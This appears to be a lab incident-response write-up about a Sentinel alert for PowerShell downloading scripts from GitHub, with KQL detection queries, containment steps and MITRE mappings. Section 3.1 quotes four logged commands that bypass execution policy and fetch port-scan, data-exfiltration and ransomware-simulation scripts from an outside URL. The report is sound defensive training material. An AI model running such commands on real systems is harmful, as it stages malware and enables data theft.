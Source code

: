 # 🛡️ Incident Response Report: PowerShell Suspicious Web Request (NIST 800-61 Compliant)

---

## 1. Overview & Explanation
A security alert was generated when **PowerShell** invoked the `Invoke-WebRequest` command to download multiple suspicious scripts from a **GitHub** repository. This tactic is often seen in **post-exploitation** scenarios, where attackers use legitimate system utilities like **PowerShell** to evade defenses and retrieve malicious payloads. By blending in with normal Windows processes, they can deploy backdoors, exfiltrate data, or run malicious scripts with minimal detection.

In this case, logs from **Microsoft Defender for Endpoint (MDE)** and **Microsoft Sentinel** showed four separate script downloads from **windows-target-1**. Further analysis confirmed these scripts had also been **executed** locally. Following NIST 800-61 guidelines, the incident was triaged, contained, eradicated, and lessons learned were documented.

---

## 2. Detection & Alert Rule Creation
### 2.1 Sentinel Alert Configuration
**Alert Name**: “PowerShell Suspicious Web Request”  
**Condition**: Triggers when `Invoke-WebRequest` is used to download files from an external domain.  
**Data Source**: DeviceProcessEvents in MDE, forwarded to Sentinel via **Log Analytics Workspace**.

```kql
// Identify PowerShell commands downloading scripts from external sources
DeviceProcessEvents
| where DeviceName contains "windows-target-1"
| where InitiatingProcessCommandLine contains "invoke-webrequest"
| project TimeGenerated, AccountName, ActionType, DeviceName, FileName, 
         FolderPath, InitiatingProcessCommandLine, SHA256
| order by TimeGenerated desc
```

Result: An incident was automatically created for further investigation.

---

## 3. Incident Analysis
### 3.1 Process Events
Upon investigating the alert, the following commands were identified:

```
"cmd.exe" /c powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest 
  -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/eicar.ps1 
  -OutFile C:\programdata\eicar.ps1
"cmd.exe" /c powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest 
  -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/exfiltratedata.ps1 
  -OutFile C:\programdata\exfiltratedata.ps1
"cmd.exe" /c powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest 
  -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/portscan.ps1 
  -OutFile C:\programdata\portscan.ps1
"cmd.exe" /c powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest 
  -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt.ps1 
  -OutFile C:\programdata\pwncrypt.ps1
```

The user later confirmed they had clicked on a link to download free software around the same time the alert was generated, saw a “black screen pop up and then nothing happened,” unaware the scripts had downloaded and executed in the background.

### 3.2 Script Execution Confirmation
A follow-up query revealed the same scripts had also been run locally:

```
let ScriptNames = dynamic(["eicar.ps1", "exfiltratedata.ps1", "portscan.ps1", "pwncrypt.ps1"]);
DeviceProcessEvents
| where DeviceName == "windows-target-1"
| where ProcessCommandLine contains "-File" 
      and InitiatingProcessCommandLine has_any (ScriptNames)
| order by TimeGenerated
| project TimeGenerated, AccountName, DeviceName, FileName, InitiatingProcessCommandLine
| summarize by AccountName, DeviceName, FileName, InitiatingProcessCommandLine
```

### 3.3 Code Review: Using Browserling, the URLs were accessed, and the scripts were analyzed. Each script’s function was verified and categorized.

#### One-Line Descriptions of Each Script:

- **[portscan.ps1](https://github.com/K-ING-TECH/Incident-Response_Invoke-WebRequest/blob/main/portscan.ps1)** - Scans a specified IP range for open common ports and logs the results for network reconnaissance.

- **[eicar.ps1](https://github.com/K-ING-TECH/Incident-Response_Invoke-WebRequest/blob/main/eicar.ps1)** - Creates an EICAR test file to simulate a benign virus detection for testing antivirus software responses.

- **[exfiltratedata.ps1](https://github.com/K-ING-TECH/Incident-Response_Invoke-WebRequest/blob/main/exfiltratedata.ps1)** - Generates fake employee data, compresses it, and uploads it to Azure Blob Storage to simulate data exfiltration.

- **[pwncrypt.ps1](https://github.com/K-ING-TECH/Incident-Response_Invoke-WebRequest/blob/main/pwncrypt.ps1)** - Encrypts files containing sensitive data and leaves a ransom note, simulating ransomware behavior.

Finding: This indicates an active malicious or test scenario, as scripts were successfully invoked on the system.

---

## 4. Containment, Eradication, & Recovery
### 4.1 Containment Actions
Device Isolation

Used Microsoft Defender for Endpoint to isolate the target (windows-target-1), cutting off external attacker communication.
Comprehensive AV Scan

Ran a full antivirus scan to detect and remove potential malware associated with the downloaded scripts.
### 4.2 Eradication Steps
Reimaging & Redeployment

Restored the machine from a known-good backup to ensure all malicious artifacts were removed.

### 4.3 Recovery Measures

#### Security Awareness Training
Enrolled the affected user in KnowBe4 advanced training for phishing and malicious link recognition.

#### Policy Updates
Restricted PowerShell usage to administrative accounts only.

Created a new rule preventing Invoke-WebRequest for non-privileged users.

---

## 5. Post-Incident Activities
#### Lessons Learned
Reinforced user education on suspicious links.

Identified a policy gap allowing unprivileged PowerShell downloads.

#### Policy Enforcement
Implemented new controls restricting remote download commands.

Elevated overall logging and alert thresholds for external script pulls.

#### Incident Closure
Verified all malicious scripts and processes were removed.

Closed the Sentinel incident as “True Positive.”

---

## 6. Conclusion
The detection of PowerShell Invoke-WebRequest commands downloading four malicious scripts triggered a Sentinel alert. Investigation confirmed both the download and execution of the scripts, marking a successful infiltration attempt. Quick device isolation and thorough scanning limited damage. Post-incident actions included reimaging the machine, updating security policies, and enhancing user training to mitigate future threats. By following NIST 800-61 practices, this incident was effectively contained, eradicated, and used as an opportunity to strengthen overall cybersecurity posture.

---

## 7. MITRE ATT&CK TTPs
**T1059.001 (Command & Scripting Interpreter:** PowerShell)	Attacker utilized PowerShell commands (Invoke-WebRequest) to download and execute payloads.

**T1105 (Ingress Tool Transfer):**	Scripts/payloads transferred from an external source (GitHub) onto the target system.

**T1027 (Obfuscated Files or Information):**	Potential script obfuscation, bypass of security policies, and stealthy use of PowerShell.

